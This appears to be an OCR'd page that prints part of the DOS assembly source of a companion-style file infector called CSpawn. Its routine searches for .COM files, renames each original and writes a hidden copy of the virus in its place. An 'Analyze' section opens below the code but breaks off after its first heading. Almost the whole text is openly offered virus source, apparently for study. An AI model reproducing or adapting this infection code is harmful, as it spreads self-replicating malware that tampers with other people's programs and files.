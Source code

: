 ```assembly
        xor     cx,cx                     ;CX holds all file attributes
FIND_LOOP:
        int     21H
        jc      FIND_DONE                 ;Exit if no files found
        call    INFECT_FILE               ;Infect the file!
        mov     ah,4FH
        jmp     FIND_LOOP                 ;Try finding another file
FIND_DONE:
        ret                               ;Return to caller

COM_MASK db      '*.COM',0        ;COM file search mask

;This routine infects the file specified in the DTA.
INFECT_FILE:
        mov     si,9EH                    ;DTA + 1EH
        mov     di,OFFSET REAL_NAME       ;DI points to new name
INF_LOOP:
        lodsb
        stosb
        or       al,al
        jnz      INF_LOOP                 ;Is it a NULL?
        mov      WORD PTR [di-21],'N'
        mov     dx,9EH
        mov     di,OFFSET REAL_NAME
        mov     ah,56H
        int     21H                       ;rename original file
        jc       INF_EXIT                 ;if can’t rename, already done

        mov     ah,3CH
        mov     cx,2
        int     21H                       ;DOS create file function
                                          ;set hidden attribute

        mov     bx,ax                     ;BX holds file handle
        mov     ah,40H
        mov     cx,FINISH - CSpawn
        mov     dx,OFFSET CSpawn
        int     21H                       ;DOS write to file function

        mov     ah,3EH
        int     21H                       ;DOS close file function

INF_EXIT:
        ret

REAL_NAME db      13 dup (?)
                                  ;Name of host to execute
;DOS EXEC function parameter block
PARAM_BLK DW ?             ;environment segment
          DD 80H           ;@ of command line
          DD 5CH           ;@ of first FCB
          DD 6CH           ;@ of second FCB

FINISH:

end CSpawn

```
## Analyze
1.  **Program Setup and Memory Management**:
    